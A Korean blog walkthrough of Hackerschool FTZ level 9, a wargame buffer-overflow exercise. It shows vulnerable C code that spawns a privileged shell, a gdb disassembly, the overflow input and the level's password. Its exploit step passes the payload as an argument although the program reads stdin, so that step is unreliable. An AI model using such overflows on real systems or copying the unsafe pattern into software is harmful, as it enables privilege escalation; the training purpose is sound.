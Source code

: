 ```yaml
---
date: '2022-09-29'
before : '2022-09-28'
after : '2022-09-30'
title: '해커스쿨 FTZ 레벨 9'
categories: [ 'KOR', 'pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

레벨 9 이후부터는 본격적으로 해킹 공격 기법에 관한 문제들이 나온다!

### 1. level 9
 
드디어 첫(!) BOF...라고하기엔 너무 간단하지만, BOF문제다! cat hint를 실행하면 실행파일 소스 코드가 나온다. 일단 코드를 살펴보자.


또한 이 파일은 **Level 10**의 권한을 가지고 있다.

```
main(){

  char buf2[10];
  char buf[10];

  printf("It can be overflow : ");
  fgets(buf,40,stdin);

  if ( strncmp(buf2, "go", 2) == 0 )
   {
        printf("Good Skill!\n");
        setreuid( 3010, 3010 );
        system("/bin/bash");
   }

}
```

buf2[10]과 buf[10]이라는 배열이 있는데, buf배열을 밑에 fgets함수에서 40개를 받는다.
즉 오버플로우가 가능하단 소리다. buf2배열의 첫 두문자가 "go"인 경우에 password를
준다고 하니, 정확히 buf2와 buf 배열의 거리가 얼마나 되나를 살펴봐야한다.


실행권한은 없으니 복사해서 test.c를 만든다음 실행파일로 만들어서 한번 gdb로
디버깅해보자. gdb는 리눅스의 어셈블리 디버거로, 활용하기 위해서 약간의 공부는 필요할 수 있다.


일단 set disassembly-flavor intel을 콘솔창에 입력하자.


disassemble (함수이름)을 하면 저 main함수가 시작될 때의 전체적인 어셈블리 코드를 확인해 볼 수 있다. 

```
0x08048420 <main+0>:    push   ebp
0x08048421 <main+1>:    mov    ebp,esp
0x08048423 <main+3>:    sub    esp,0x28
0x08048426 <main+6>:    and    esp,0xfffffff0
0x08048429 <main+9>:    mov    eax,0x0
0x0804842e <main+14>:   sub    esp,eax
0x08048430 <main+16>:   sub    esp,0xc
0x08048433 <main+19>:   push   0x8048554
0x08048438 <main+24>:   call   0x8048350 <printf>
0x0804843d <main+29>:   add    esp,0x10
0x08048440 <main+32>:   sub    esp,0x4
0x08048443 <main+35>:   push   ds:0x8049698
0x08048449 <main+41>:   push   0x28
0x0804844b <main+43>:   lea    eax,[ebp-40]
0x0804844e <main+46>:   push   eax
0x0804844f <main+47>:   call   0x8048320 <fgets>
0x08048454 <main+52>:   add    esp,0x10
0x08048457 <main+55>:   sub    esp,0x4
0x0804845a <main+58>:   push   0x2
0x0804845c <main+60>:   push   0x8048569
0x08048461 <main+65>:   lea    eax,[ebp-24]
0x08048464 <main+68>:   push   eax
```

대충 보면, lea가 배열 생성과 관련되어있다는걸 알 수있다. Linux 같은경우는 
little Endian을 사용하므로, 거꾸로 올라간다. 따라서 밑에 있는게 buf배열
위에 있는게 buf2배열이라고 유추할 수 있다. 


둘의 차는  40- 24이므로 
둘의 거리는 16이 된다. (원래는 10이어야하지만, 더미데이터 등의 이유로 6바이트가
추가된듯 하다.)


quit로종료하고, 16개의 문자열 + go를 입력한다.
```
./attackme AAAAAAAAAAAAAAAAgo
```
비밀번호 : interesting to hack!

---
## Source

- 해커스쿨 FTZ
- Me!